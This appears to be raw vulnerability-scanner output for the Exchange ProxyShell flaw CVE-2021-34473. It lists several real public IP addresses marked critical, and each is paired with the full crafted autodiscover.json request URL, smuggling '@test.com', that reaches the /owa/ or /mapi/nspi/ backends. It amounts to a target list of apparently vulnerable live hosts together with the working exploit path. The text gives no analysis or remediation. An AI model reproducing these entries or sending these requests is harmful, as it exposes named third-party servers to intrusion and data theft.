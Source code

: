 [CVE-2021-34473] [http] [critical] https://85.234.126.88/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://85.234.126.88/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 86.110.170.2  
  
---  
[CVE-2021-34473] [http] [critical] https://86.110.170.2/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://86.110.170.2/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 86.62.120.62  
  
---  
[CVE-2021-34473] [http] [critical] https://86.62.120.62/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://86.62.120.62/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 85.143.239.114  
  
---  
[CVE-2021-34473] [http] [critical] https://85.143.239.114/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 85.158.54.176  
  
---  
[CVE-2021-34473] [http] [critical] https://85.158.54.176/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 87.249.217.111  
  
---  
[CVE-2021-34473] [http] [critical] https://87.249.217.111/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://87.249.217.111/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 89.148.195.237  
  
---  
[CVE-2021-34473] [http] [critical] https://89.148.195.237/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  